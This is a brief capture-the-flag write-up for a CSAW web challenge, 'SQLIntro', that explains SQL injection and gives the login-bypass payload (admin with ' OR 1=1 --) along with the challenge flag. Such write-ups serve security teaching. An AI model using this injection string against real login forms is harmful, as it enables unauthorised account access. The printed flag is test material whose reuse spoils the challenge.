

# SQLIntro


Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Can you log into the admin's account without knowing the password?
```
web.chal.csaw.io:10104
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database.  
The usage of the **OR** statement allows for additional logic in the SQL query.  Appending **OR 1=1** to a SQL query will make it always true since 1=1. <br />
[Read More](https://www.w3schools.com/sql/sql_injection.asp) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
 <br />

Username:
> admin

Password:
> ' OR 1=1 --&nbsp;    

**Note** **```  --  ```** is an inline comment.  This ignores the rest of the SQL query.


## Flag
```
flag{j00'V3_pa223d_w38_s3cUri7Y_101}
```
